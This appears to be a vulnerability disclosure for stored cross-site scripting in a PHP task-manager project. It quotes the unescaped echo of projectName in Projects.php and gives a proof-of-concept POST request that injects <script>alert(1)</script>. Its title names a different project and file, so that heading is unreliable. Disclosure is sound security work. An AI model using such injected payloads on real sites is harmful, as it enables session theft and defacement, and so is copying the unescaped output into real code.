# farmacia-in-php has Cross Site Scripting vulnerability in adicionar-produto.php

## supplier 
https://code-projects.org/task-manager-in-php-with-source-code/
## Vulnerability file
Projects.php

## describe
In Projects.php.There are unrestricted cross site scripting attacks and injection attacks in the task-manager-in-php-with-source-code. The controllable parameters are as follows: $row['projectName'] parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Querying data from the database and storing it in the projectName, and the echo $row['projectName'] is not filtered, resulting in the execution of XSS statements.

code in Projects.php from line48-line87

```
<center> Your current tasks 
<table height = "50" border = "1" class="task">
<tr> <th>Project Name</th> <th>Task Name</th> <th>Start Date</th> <th>Due Date</th> <th>Priority</th> <th>Done</th> <th>Delete</th><th> Edit </th><th> Show Notes </th> </tr>
	<?php
		$sql = "SELECT tasks.*,project.projectName FROM tasks,project WHERE project.projectID = tasks.projectID";
		$result = $conn ->query($sql);
		while($row = $result ->fetch_assoc())
		{
			$colour = "";
			$date = strtotime($row['taskDueDate']);
			$date = date('Y/m/d',$date);
			$current_date = date("Y/m/d");
			if($row['taskDone'] == "no"){
				if(isset($row['taskDueDate']))
				{ 
					if ($current_date > $date){
						$colour = "#ff6060";
					}
				}
			}
			
			if($row['taskDone']== "yes"){
				if(isset($row['taskDueDate'])){
					if($current_date <= $date){
						$colour = "#60ff6e";
					}
				}
			}
			
			echo "<tr style = 'background-color :", $colour,"'><td>",$row['projectName'], '</td><td>', $row['taskName'], '</td><td>', $row['taskStartDate'], '</td><td>', $row['taskDueDate'], '</td><td>', $row['taskPriority'], '</td>',"
			<td><a class = 'table1' href='Task.php?done=1&taskID=",$row["taskID"],"'>&#10004</a></td>
			<td><a class = 'table1' href='Task.php?delete=1&taskID=",$row["taskID"],"'>&#10006</a></td>
			<td><a class = 'table1' href='EditTask.php?edit=1&taskID=",$row["taskID"],"'>Edit</a></td>
			<td> <button id='notesButton-",$row['taskID'],"' onClick =\"showNotes('",$row['taskID'],"')\"'>Show Notes </button> </td>
			</tr>
			<tr class='notes'>
			<td colspan=\"8\" style='display:none;' id='notes-",$row['taskID'],"'><hr>",$row['notes'],"<hr></td>
			</tr>";	
		}
	?>
```
the echo in line 48 is not filtered



## POC

```
POST /newProject.php HTTP/1.1
Host: localhost:8081
Content-Length: 86
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/Projects.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

projectName=<script>alert(1)</script>&priority=Medium&createProject=%E6%8F%90%E4%BA%A4
```

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost:8081/Projects.php
```



**Result**

![image-20241126221600209](https://github.com/LamentXU123/cve/blob/main/assest/xss2.png)
